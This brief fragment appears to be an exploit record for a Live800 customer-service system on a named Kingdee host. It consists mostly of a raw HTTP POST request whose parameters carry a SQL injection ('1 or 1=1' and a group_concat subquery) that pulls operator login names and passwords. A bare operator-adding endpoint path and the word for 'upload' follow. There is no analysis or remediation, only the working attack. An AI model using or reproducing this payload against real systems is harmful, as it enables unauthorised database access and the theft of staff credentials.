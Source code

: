 `POST //live800/sta/export/referrerSta.jsp HTTP/1.1
Host: online.kingdee.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: Hm_lvt_aff7fbe8fcb98b060541077cc76465f2=1439863446; Hm_lvt_329734d1d305dcdeae1b8e0ceccc6b2b=1439865398
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 182

export=csv&vn=dataAnalyseAdapter_referrer&operatorId=&fromTime=2016-04-18&toTime=2016-04-19&companyId=1 or 1=1&subStrSql=(select group_concat(login_name,0x3a,password) from operator)`





/live800/addOperatorUtil.jsp?action=1 

上传